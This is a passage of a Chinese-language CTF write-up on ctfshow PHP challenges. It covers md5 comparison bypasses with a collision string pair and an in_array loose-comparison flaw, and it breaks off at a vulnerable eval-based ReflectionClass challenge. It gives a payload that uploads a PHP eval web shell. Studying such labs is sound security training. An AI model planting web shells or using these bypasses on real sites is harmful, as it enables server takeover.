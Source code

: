 #### (2) md5强比较

md5不能处理数组，所以会返回false，比较结果就是true

#### (3)md5强碰撞

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```





### 3.in_array()

![](https://i.loli.net/2021/11/29/fD4IxvldJYOyEpV.png)

#### web99

```php
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
} 
```

in_array没有使用严格模式，当n=1.php时，就要相当于n=1去比较，造成绕过

payload:`get:?n=1.php post:content=<?php eval($_POST['cmd']);?>`

### 4. ReflectionClass() 反射类

**ReflectionClass** 类报告了一个类的有关信息。

#### web101

```php
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){eval("$v2('ctfshow')$v3");}} } 
```
